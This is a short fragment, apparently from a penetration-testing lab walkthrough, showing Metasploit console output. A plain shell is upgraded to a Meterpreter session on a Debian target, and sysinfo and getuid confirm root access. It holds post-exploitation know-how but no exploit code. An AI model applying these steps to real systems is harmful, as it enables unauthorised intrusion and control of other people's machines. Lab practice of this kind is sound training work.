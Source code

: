 ```
msf5 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                 Connection
  --  ----  ----                   -----------                                 ----------
  1         shell cmd/unix                                                     192.15.82.2:45985 -> 192.15.82.3:6200 (192.15.82.3)
  2         meterpreter x86/linux  uid=0, gid=0, euid=0, egid=0 @ 192.15.82.3  192.15.82.2:4433 -> 192.15.82.3:55484 (192.15.82.3)
```

```
msf5 post(multi/manage/shell_to_meterpreter) > sessions 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer     : 192.15.82.3
OS           : Debian 9.5 (Linux 5.4.0-125-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```